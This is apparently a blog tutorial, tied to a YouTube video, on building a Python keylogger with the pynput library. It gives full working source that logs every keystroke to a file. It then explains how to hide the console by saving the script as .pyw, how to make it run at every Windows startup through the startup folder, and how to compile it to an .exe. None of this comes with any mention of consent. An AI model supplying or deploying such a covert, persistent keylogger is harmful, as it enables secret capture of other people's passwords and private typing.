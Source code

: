 ```yaml
---
layout: post
title: "Python Keylogger"
date: 2017-12-15
categories: Youtube
tags: Python Keyboard Logging pynput
---
```


* content
{:toc}

This is a python keylogger which will work on windows, mac and linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed.

{% include embedYouTube.html content="x8GbWt56TlY" %}

<!-- more -->

## PIP
If you haven't used or setup pip before, go to my tutorial at [{% link _posts/2017-12-13-how-to-setup-python's-pip.md %}]({{ site.baseurl }}{% link _posts/2017-12-13-how-to-setup-python's-pip.md %}) to setup pip. This is needed to install pynput to get keys typed.

## Installing Pynput
We will be using the pynput module to listen to mouse events. To install this module execute ```pip install pynput``` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](/images/how-to-get-mouse-clicks-with-python-pynput1.png)

To double check that it was installed successfully, open up IDLE and execute the command ```import pynput```; no errors should occur.

![Testing pynput](/images/how-to-get-mouse-clicks-with-python-pynput2.png)

## Building the Keylogger
Create a new Python file and import Key and Listener from pynput.keyboard and the logging module.

```python
from pynput.keyboard import Key, Listener
import logging
```

Next set a variable which points to where you want to save the logs; leave this as an empty string to save the log beside the python script. Then setup the logging module as shown below.

```python
log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

```

Then create a definition for keypresses called on_press which takes key as a parameter. In this definition we want to log using the info method the key type casted to a string.

```python
def on_press(key):
    logging.info(key)
```

Next setup an instance of Listener and define the on_press method in a with statement and then join the instance to the main thread.

```python
with Listener(on_press=on_press) as listener:
    listener.join()
```

Now save the file with a .pyw file extension to make sure that the console doesn't appear when it's run.

![Save as .pyw](/images/python-keylogger-pyw.png)

Run the script in IDLE to make sure that you haven't made any errors. Errors will show up in here if some do occur.

## Autostart
To make the script run on startup first go to your startup folder. Hold down the windows button and press "R" or type run in the windows menu to make the run dialog appear.

![shell:startup example](/images/python-keylogger-run.png)

Now type ```shell:startup``` in the dialog and press enter. This will open a window at your startup folder.

Copy the keylogger into this folder and then create a new folder somewhere else for logs to be saved to. Make sure this folder is not in the startup folder or it will be opened every time the computer has started. Open the keylogger in IDLE and now change the log_dir to the location of the folder you just created. Make sure this folder path uses forward slashes ('/') and contains a forward slash at the end.

## Stopping the Keylogger
To stop the keylogger, open up task manager and look for anything named python as shown below due to windows just showing program names. If you have an older version of windows, I recommend looking for pythonw.exe. Right click on this and end the task.

![Python in task manager](/images/python-keylogger-taskmgr.png)

## Final Script
```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(key)

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Compile to EXE
Want to convert this .py to a .exe? Head over to my tutorial at [{{ site.baseurl }}{% link _posts/2017-12-11-convert-.py-to-.exe.md %}]({{ site.baseurl }}{% link _posts/2017-12-11-convert-.py-to-.exe.md %}) to do it in a few easy steps. This tutorial also shows you how to remove the console that shows up, make one file executables and even add an icon.

Converting to .exe will allow the script to run on windows computers without python installed (python is pre-installed on mac and most linux computers)

## FAQ

### 'python' is not recognized as an internal or external command
Python hasn't been installed or it hasn't been installed properly. Go to [{% link _posts/2017-12-13-how-to-setup-python's-pip.md %}]({{ site.baseurl }}{% link _posts/2017-12-13-how-to-setup-python's-pip.md %}) and follow the tutorial. Just before you enter the scripts folder into the path variable, remove the "\scripts\" part at the end. You will also want to add another path with "\scripts\" to have pip.

### Where are the log files?
They will be located next to the python file (in the current directory for more advanced users). If it hasn't appeared, make sure you run the script in IDLE to check for errors you have made.

### What is pynput's GitHub page?
[https://github.com/moses-palmer/pynput](https://github.com/moses-palmer/pynput)

### It doesn't work
Make sure you run the script in IDLE to check for errors you have made

### How can I stop the listener?
As documented at [https://pythonhosted.org/pynput/keyboard.html](https://pythonhosted.org/pynput/keyboard.html) you can use pynput.keyboard.Listener.stop() to stop listening.

### "Shift + Right Click" action it only gives an option for Power Shell
Powershell is fine, don't worry, it does the same stuff and more. Use it.

*Please leave questions and comments related to the video on YouTube as they will be replied to faster there*